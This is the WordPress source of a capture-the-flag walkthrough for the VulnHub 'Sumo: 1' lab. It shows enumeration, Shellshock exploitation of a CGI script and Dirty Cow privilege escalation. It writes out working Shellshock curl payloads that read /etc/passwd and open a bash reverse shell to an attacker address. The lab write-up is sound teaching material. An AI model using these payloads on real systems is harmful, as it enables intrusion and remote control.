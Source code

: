 <!-- wp:paragraph -->
<p><a href="https://www.vulnhub.com/entry/sumo-1,480/" target="_blank" rel="noreferrer noopener">https://www.vulnhub.com/entry/sumo-1,480/</a></p>
<!-- /wp:paragraph -->

<!-- wp:separator -->
<hr class="wp-block-separator has-alpha-channel-opacity"/>
<!-- /wp:separator -->

<!-- wp:paragraph {"align":"center","backgroundColor":"vivid-purple","fontSize":"small"} -->
<p class="has-text-align-center has-vivid-purple-background-color has-background has-small-font-size">Review</p>
<!-- /wp:paragraph -->

<!-- wp:list -->
<ul><!-- wp:list-item -->
<li>Enumeration indicates the possibility of a shellshock exploit</li>
<!-- /wp:list-item -->

<!-- wp:list-item -->
<li>Scan and test for shellshock vulnerability</li>
<!-- /wp:list-item -->

<!-- wp:list-item -->
<li>Use shellshock to get a reverse shell</li>
<!-- /wp:list-item -->

<!-- wp:list-item -->
<li>Linux enumeration indicates the kernel is outdated</li>
<!-- /wp:list-item -->

<!-- wp:list-item -->
<li>Use known outdated Linux exploit like Dirty Cow to gain privilege access</li>
<!-- /wp:list-item --></ul>
<!-- /wp:list -->

<!-- wp:separator -->
<hr class="wp-block-separator has-alpha-channel-opacity"/>
<!-- /wp:separator -->

<!-- wp:paragraph {"align":"center","backgroundColor":"luminous-vivid-amber","fontSize":"small"} -->
<p class="has-text-align-center has-luminous-vivid-amber-background-color has-background has-small-font-size"><strong>Enumeration</strong></p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p>Run nmap scan to find for open ports.</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":4098,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/09/image-47.png?w=869" alt="" class="wp-image-4098"/></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Port 80</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":4099,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/09/image-48.png?w=714" alt="" class="wp-image-4099"/></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Run a gobuster scan to find for hidden directories. </p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":4101,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/09/image-49.png?w=1024" alt="" class="wp-image-4101"/><figcaption class="wp-element-caption">/cgi-bin/ has 403 status. Run another scan on it.</figcaption></figure>
<!-- /wp:image -->

<!-- wp:image {"id":4105,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/09/image-51.png?w=669" alt="" class="wp-image-4105"/></figure>
<!-- /wp:image -->

<!-- wp:image {"id":4103,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/09/image-50.png?w=697" alt="" class="wp-image-4103"/></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>/cgi-bin/ has be known to have shellshock vulnerability , use a nmap script to check if this vulnerability is available on the test script.</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":4108,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/09/image-53.png?w=916" alt="" class="wp-image-4108"/><figcaption class="wp-element-caption">Vulnerability found.</figcaption></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Let's test using the shellshock script.</p>
<!-- /wp:paragraph -->

<!-- wp:code -->
<pre class="wp-block-code"><code>curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'" http://192.168.18.12:80/cgi-bin/test.sh</code></pre>
<!-- /wp:code -->

<!-- wp:image {"id":4109,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/09/image-54.png?w=1024" alt="" class="wp-image-4109"/></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Inject a reverse shell via the shell shock script.</p>
<!-- /wp:paragraph -->

<!-- wp:code -->
<pre class="wp-block-code"><code>curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'bash -i &gt;&amp; /dev/tcp/192.168.18.2/1234 0&gt;&amp;1'" http://192.168.18.12/cgi-bin/test.sh</code></pre>
<!-- /wp:code -->

<!-- wp:image {"id":4111,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/09/image-55.png?w=1024" alt="" class="wp-image-4111"/></figure>
<!-- /wp:image -->

<!-- wp:separator -->
<hr class="wp-block-separator has-alpha-channel-opacity"/>
<!-- /wp:separator -->

<!-- wp:paragraph {"align":"center","backgroundColor":"vivid-cyan-blue","fontSize":"small"} -->
<p class="has-text-align-center has-vivid-cyan-blue-background-color has-background has-small-font-size"><strong>Foothold</strong></p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p>User access gained.</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":4113,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/09/image-56.png?w=675" alt="" class="wp-image-4113"/></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Upload linpeas to find for some clues.</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":4114,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/09/image-57.png?w=600" alt="" class="wp-image-4114"/><figcaption class="wp-element-caption">The linux kernel is outdated</figcaption></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Check online for the kernel exploit and we can use the dirty cow exploit.</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":4118,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/09/image-59.png?w=1024" alt="" class="wp-image-4118"/></figure>
<!-- /wp:image -->

<!-- wp:image {"id":4125,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/09/image-63.png?w=660" alt="" class="wp-image-4125"/></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Upload the exploit to the victim machine.</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":4119,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/09/image-60.png?w=825" alt="" class="wp-image-4119"/><figcaption class="wp-element-caption">Got an error compiling the code.</figcaption></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Google indicates to change the path directory.</p>
<!-- /wp:paragraph -->

<!-- wp:code -->
<pre class="wp-block-code"><code>PATH=PATH$:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/lib/gcc/x86_64-linux-gnu/4.8/;export PATH</code></pre>
<!-- /wp:code -->

<!-- wp:image {"id":4121,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/09/image-61.png?w=1024" alt="" class="wp-image-4121"/></figure>
<!-- /wp:image -->

<!-- wp:separator -->
<hr class="wp-block-separator has-alpha-channel-opacity"/>
<!-- /wp:separator -->

<!-- wp:paragraph {"align":"center","backgroundColor":"black","textColor":"white","fontSize":"small"} -->
<p class="has-text-align-center has-white-color has-black-background-color has-text-color has-background has-small-font-size"><strong>Privilege escalation</strong></p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p>New account created</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":4123,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/09/image-62.png?w=823" alt="" class="wp-image-4123"/></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Switch to the new user.</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":4126,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/09/image-64.png?w=479" alt="" class="wp-image-4126"/></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Root flag is found.</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":4128,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/09/image-65.png?w=368" alt="" class="wp-image-4128"/></figure>
<!-- /wp:image -->
